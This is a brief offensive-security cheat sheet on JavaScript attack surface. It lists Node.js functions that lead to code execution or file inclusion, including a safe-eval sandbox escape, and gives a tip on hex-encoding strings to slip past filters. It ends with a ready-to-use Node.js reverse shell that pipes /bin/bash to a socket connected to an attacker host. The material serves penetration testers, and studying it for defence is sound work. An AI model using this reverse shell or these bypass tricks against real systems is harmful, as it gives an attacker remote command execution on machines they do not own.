 # JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```js
/* RCE */
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure however sandbox escape exists (NSP 337, CVE-2017-16088)
setTimeout(string, 2)
setInterval(string)
Function(string)

/* Command Execution */
child_process.exec()

/* LFI */
require()
```

### Reverse Shell

```js
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
